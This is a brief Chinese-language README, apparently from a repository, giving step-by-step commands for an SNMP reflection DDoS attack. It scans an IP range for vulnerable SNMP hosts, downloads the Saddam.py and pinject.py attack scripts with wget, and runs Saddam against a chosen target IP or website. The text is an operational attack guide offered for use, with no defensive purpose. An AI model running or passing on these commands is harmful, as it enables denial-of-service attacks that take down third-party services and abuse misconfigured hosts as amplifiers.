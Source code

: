 # 使用說明
snmp漏洞主機掃瞄
./snmpscan 開始ip 結束ip 儲存檔案名稱 一次查詢數量 10
攻擊腳本下載
wget https://raw.githubusercontent.com/OffensivePython/Saddam/master/Saddam.py
wget https://raw.githubusercontent.com/OffensivePython/Pinject/master/pinject.py
攻擊腳本使用
測試倍數
python Saddam.py benchmark -s 掃瞄後的檔案
python Saddam.py 攻擊ip或是網址 -s 掃瞄後的檔案
